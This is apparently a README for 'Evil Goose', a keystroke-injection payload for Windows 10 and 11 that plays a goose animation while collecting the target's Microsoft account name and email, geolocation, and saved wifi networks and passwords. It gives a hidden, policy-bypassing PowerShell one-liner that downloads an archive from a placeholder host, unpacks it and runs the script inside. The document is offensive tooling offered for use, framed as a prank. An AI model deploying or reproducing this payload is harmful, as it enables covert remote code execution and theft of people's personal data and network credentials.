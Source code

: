 ##

<!-- TABLE OF CONTENTS -->
<!--TABLE 0F C0NTENTS-->

# Evil Goose

A payload that hires a goose to hack your target in real time

## Description

With this payload after is is executed it will wait for a mouse movement to begin 

Afterwards it will walk around your targets screen pulling out personal information about them such as: 

* Full name associated with their microsoft account 
* Email associated with their microsoft account 
* Their exact Geo Location 
* The wifi networks and passwords

## Getting Started

### Dependencies

* Windows 10,11

##

### Executing program

* Plug in your device
* 10 seconds later your goose is owning their system

```powershell
powershell -w h -NoP -NonI -Ep Bypass $D="$env:tmp";iwr -Uri 'https://MYDOMAIN.HERE/1ae' -O "$D\hg.zip";Expand-Archive "$D\hg.zip" -Des $D -Force;. "$D\hg\main.ps1"
```
### Exiting the Payload

This payload will automatically end after 2 min 

Or if you press `Left Control` + `Right Control` at the same time

##

##